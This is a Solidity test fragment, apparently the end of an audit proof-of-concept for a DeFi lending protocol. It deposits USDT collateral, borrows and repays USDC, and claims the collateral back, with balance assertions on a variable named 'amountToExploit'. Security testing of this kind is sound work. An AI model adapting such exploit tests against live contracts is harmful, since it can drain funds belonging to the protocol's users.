 ```solidity
    // Check that collateral has been added
    uint256 collateral = collateralManager.collateralToUserToAmount(usdt, user);
    uint256 userBalanceAfter = usdt.balanceOf(user);
    assertEq(collateral, amountToExploit);
    assertEq(userBalanceBefore, userBalanceAfter + amountToExploit);

    // Save USDC balance
    uint256 balanceBeforeBorrow = usdc.balanceOf(user);

    // Borrow 1000 USDC from the pool
    loanManager.borrow(amountToExploit, usdcPool, usdt, 100e18 ,604800, "2.0.3");

    // Save USDC balance and assert that the amount has been received
    uint256 balanceAfterBorrow = usdc.balanceOf(user);
    assertEq(balanceBeforeBorrow, balanceAfterBorrow - amountToExploit);

    // Find loanID and assert the amount borrowed is 1K USDC (id is 3 because the address we are using has already created some loans)
    uint256 loanId = loanManager.userLoanIds(user, 3);
    LoanLib.Loan memory loan = loanManager.loans(loanId);
    assertEq(loan.amount, amountToExploit);

    // Approve USDC tokens to repay loan
    usdc.approve(address(loanManager), amountToExploit);

    // Repay entire loan
    loanManager.repay(loanId, amountToExploit, "2.0.3");

    // Assert that the loan has been payed
    loan = loanManager.loans(loanId);
    assertEq(loan.amount, 0);

    // Check that the USDC borrowed has been repaid
    uint256 balanceFinal = usdc.balanceOf(user);
    assertEq(balanceBeforeBorrow, balanceFinal);
    assertEq(balanceAfterBorrow - amountToExploit, balanceFinal);

    // Withdraw collateral
    collateralManager.claimCollateral(user, usdt, amountToExploit);

    // Check that collateral has been received
    assertEq(userBalanceAfter + amountToExploit, usdt.balanceOf(user));
    assertEq(userBalanceBefore, usdt.balanceOf(user));
}
```
